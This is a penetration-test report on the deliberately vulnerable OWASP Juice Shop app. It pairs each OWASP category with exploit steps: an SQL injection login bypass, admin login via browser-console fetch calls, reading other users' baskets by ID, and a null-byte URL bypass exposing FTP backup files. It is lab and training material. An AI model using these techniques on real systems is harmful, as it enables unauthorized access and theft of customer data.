







## Juice Shop Attack Report

### Error Handling 

#### A02:2025 - Security Misconfiguration
#### A10:2025 - Mishandling of Exceptional Conditions

Procedure: 
- Go on the Login page.
- Type something that may break the SQL command as the User, like ``'OR`` and anything on the password field.
- Press on the Login button.



```json
{
  "error": {
    "message": "SQLITE_ERROR: unrecognized token: \"0cc175b9c0f1b6a831c399e269772661\"",
    "stack": "Error\n    at Database.<anonymous> (/mnt/c/Users/habbo/Downloads/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /mnt/c/Users/habbo/Downloads/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/mnt/c/Users/habbo/Downloads/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /mnt/c/Users/habbo/Downloads/juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:104:5)",
    "name": "SequelizeDatabaseError",
    "parent": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = ''OR' AND password = '0cc175b9c0f1b6a831c399e269772661' AND deletedAt IS NULL"
    },
    "original": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = ''OR' AND password = '0cc175b9c0f1b6a831c399e269772661' AND deletedAt IS NULL"
    },
    "sql": "SELECT * FROM Users WHERE email = ''OR' AND password = '0cc175b9c0f1b6a831c399e269772661' AND deletedAt IS NULL",
    "parameters": {}
  }
}
```

Any malicious visitor immediately obtains the exact blueprint of your technical stack (Sequelize ORM, SQLite, precise database table structure, and raw SQL queries), providing them with a detailed roadmap to automate their attacks without having to guess your architecture.

### Unsecured Passwords and No Locks

#### A07:2025 - Authentication Failures

Procedure:
- Execute the following in the console: 

 ```js
 fetch('/rest/user/login', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({email:'admin@juice-sh.op', password:'admin123'})
}).then(r => console.log(r.status, r.ok))
```
Response : 
```js
etch('/rest/user/login', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({email:'admin@juice-sh.op', password:'admin123'})
}).then(r => console.log(r.status, r.ok))
VM485:1 Uncaught ReferenceError: etch is not defined
    at <anonymous>:1:1
(anonyme) @ VM485:1
fetch('/rest/user/login', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({email:'admin@juice-sh.op', password:'admin123'})
}).then(r => console.log(r.status, r.ok))
M {__zone_symbol__state: null, __zone_symbol__value: Array(0)}__zone_symbol__state: true__zone_symbol__value: undefinedSymbol(Symbol.species): (...)Symbol(Symbol.toStringTag): (...)[[Prototype]]: Objectcatch: ƒ catch(l)constructor: class Mfinally: ƒ finally(l)then: ƒ then(l,o)Symbol(Symbol.species): (...)Symbol(Symbol.toStringTag): (...)get Symbol(Symbol.species): ƒ get[Symbol.species]()get Symbol(Symbol.toStringTag): ƒ get[Symbol.toStringTag]()[[Prototype]]: Object
VM489:5 200 true
fetch('/rest/user/login', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({email:'admin@juice-sh.op', password:'test'})
}).then(r => console.log(r.status, r.ok))
M {__zone_symbol__state: null, __zone_symbol__value: Array(0)}
polyfills.js:2  POST http://localhost:3000/rest/user/login 401 (Unauthorized)
(anonyme) @ polyfills.js:2
e.<computed> @ polyfills.js:1
(anonyme) @ VM497:1
VM497:5 401 false
fetch('/rest/user/login', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({email:'admin@juice-sh.op', password:'admin123'})
}).then(r => console.log(r.status, r.ok))
M {__zone_symbol__state: null, __zone_symbol__value: Array(0)}
VM509:5

200 true
```
Attackers can try passwords endlessly until they get in, because nothing slows them down or locks the account.

### Login Admin 

#### A05:2025 - Injection

Procedure: 
- Go on the Login page.
- Type ``' OR 1=1 --`` as the User and anything on the password field.
- Press on the Login button.




Any external visitor can completely bypass the login system, steal the entire user database (accounts, hashed passwords, personal data), or alter/delete data remotely within seconds.

### Admin Section

#### A01:2025 - Broken Access Control

Procedure:
- Be logged in with the Admin account (see Admin Login)
- Go the page ``/#/administration``



Any logged-in user can open the admin area and see every customer’s email address and all the orders placed on the shop.

### View Basket

#### A01:2025 - Broken Access Control

Procedure:
- Be logged in with the Admin account (see Admin Login)
- Execute the following in the console:
```js
fetch('/rest/basket/2', {
  headers: { 'Authorization': 'Bearer ' + localStorage.getItem('token') }
}).then(r => r.json()).then(console.log)
```
(2 is UserID, you can put any UserID)

```json
{
    "status": "success",
    "data": {
        "id": 2,
        "coupon": null,
        "UserId": 2,
        "createdAt": "2026-11-10T08:49:39.946Z",
        "updatedAt": "2026-11-10T08:49:39.946Z",
        "Products": [
            {
                "id": 4,
                "name": "Jus de framboise (1000ml)",
                "description": "Made from blended Raspberry Pi, water and sugar.",
                "price": 4.99,
                "deluxePrice": 4.99,
                "image": "raspberry_juice.jpg",
                "alternateImages": [
                    {
                        "file": "raspberry_juice-1x.avif",
                        "format": "image/avif",
                        "density": "1x"
                    },
                    {
                        "file": "raspberry_juice-2x.avif",
                        "format": "image/avif",
                        "density": "2x"
                    },
                    {
                        "file": "raspberry_juice-3x.avif",
                        "format": "image/avif",
                        "density": "3x"
                    }
                ],
                "createdAt": "2026-11-10T08:49:39.564Z",
                "updatedAt": "2026-11-10T08:49:39.564Z",
                "deletedAt": null,
                "BasketItem": {
                    "ProductId": 4,
                    "BasketId": 2,
                    "id": 4,
                    "quantity": 2,
                    "createdAt": "2026-11-10T08:49:40.030Z",
                    "updatedAt": "2026-11-10T08:49:40.030Z"
                }
            }
        ]
    }
}
```

A customer can read other customers’ shopping baskets just by changing a number in the address — a direct breach of customer privacy.

### Exposed FTP

#### A02:2025 - Security Misconfiguration

Procedure: 
- Go to the page ``/ftp``



Any external visitor can access to those files (including confidential files, like ``acquisitions.md``) without any authentication.

### Poison Null Byte + Dependency Leak

#### A02:2025 - Security Misconfiguration
#### A03:2025 - Software Supply Chain Failures

Procedure: 
- Try ``/ftp/package.json.bak`` → blocked (403)
- Bypass with null byte : ``/ftp/package.json.bak%2500.md``




```json
[...]
"dependencies": {
    "body-parser": "~1.18",
    "colors": "~1.1",
    "config": "~1.28",
    "cookie-parser": "~1.4",
    "cors": "~2.8",
    "dottie": "~2.0",
    "epilogue-js": "~0.7",
    "errorhandler": "~1.5",
    "express": "~4.16",
    "express-jwt": "0.1.3",
    "fs-extra": "~4.0",
    "glob": "~5.0",
    "grunt": "~1.0",
    "grunt-angular-templates": "~1.1",
    "grunt-contrib-clean": "~1.1",
    "grunt-contrib-compress": "~1.4",
    "grunt-contrib-concat": "~1.0",
    "grunt-contrib-uglify": "~3.2",
    "hashids": "~1.1",
    "helmet": "~3.9",
    "html-entities": "~1.2",
    "jasmine": "^2.8.0",
    "js-yaml": "3.10",
    "jsonwebtoken": "~8",
    "jssha": "~2.3",
    "libxmljs": "~0.18",
    "marsdb": "~0.6",
    "morgan": "~1.9",
    "multer": "~1.3",
    "pdfkit": "~0.8",
    "replace": "~0.3",
    "request": "~2",
    "sanitize-html": "1.4.2",
    "sequelize": "~4",
    "serve-favicon": "~2.4",
    "serve-index": "~1.9",
    "socket.io": "~2.0",
    "sqlite3": "~3.1.13",
    "z85": "~0.0"
  },
  "devDependencies": {
    "chai": "~4",
    "codeclimate-test-reporter": "~0.5",
    "cross-spawn": "~5.1",
    "eslint": "~4.7",
    "eslint-scope": "3.7.2",
    "form-data": "~2.3",
    "frisby": "~2.0",
    "grunt-cli": "~1.2",
    "http-server": "~0.10",
    "jasmine-reporters": "~2.2",
    "jest": "~22",
    "karma": "~1.7",
    "karma-chrome-launcher": "~2.2",
    "karma-cli": "~1.0",
    "karma-coverage": "~1.1",
    "karma-jasmine": "~1.1",
    "karma-junit-reporter": "~1.2",
    "karma-phantomjs-launcher": "~1.0",
    "karma-safari-launcher": "~1.0",
    "lcov-result-merger": "~1.2",
    "mocha": "~4",
    "nyc": "~11",
    "phantomjs-prebuilt": "~2",
    "protractor": "~5",
    "shelljs": "~0.7",
    "sinon": "~4",
    "sinon-chai": "~2.14",
    "socket.io-client": "~2.0",
    "standard": "~10",
    "stryker": "~0",
    "stryker-api": "~0",
    "stryker-html-reporter": "~0",
    "stryker-jasmine": "~0",
    "stryker-karma-runner": "~0",
    "stryker-mocha-runner": "~0"
  }
[...]
```

Any malicious visitor can download all files in the FTP repository, including the dependency list, and can use known security breaches of those dependencies against the website.

